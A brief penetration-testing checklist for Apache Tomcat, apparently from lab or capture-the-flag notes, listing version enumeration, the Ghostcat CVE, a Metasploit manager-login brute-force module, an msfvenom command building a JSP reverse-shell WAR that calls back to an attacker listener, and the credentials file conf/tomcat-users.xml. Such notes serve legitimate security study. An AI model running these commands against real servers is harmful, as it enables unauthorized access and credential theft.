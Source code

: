 - [ ] Enumerate Tomcat version
- [ ] CVE-2020-1938 Ghostcat < 9.0.31, 8.5.51, and 7.0.100

(Metasploit) Brute force
```bash
auxiliary/scanner/http/tomcat_mgr_login
```
(msfvenom) WAR rce 
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```
Interesting directories
```
conf/tomcat-users.xml
```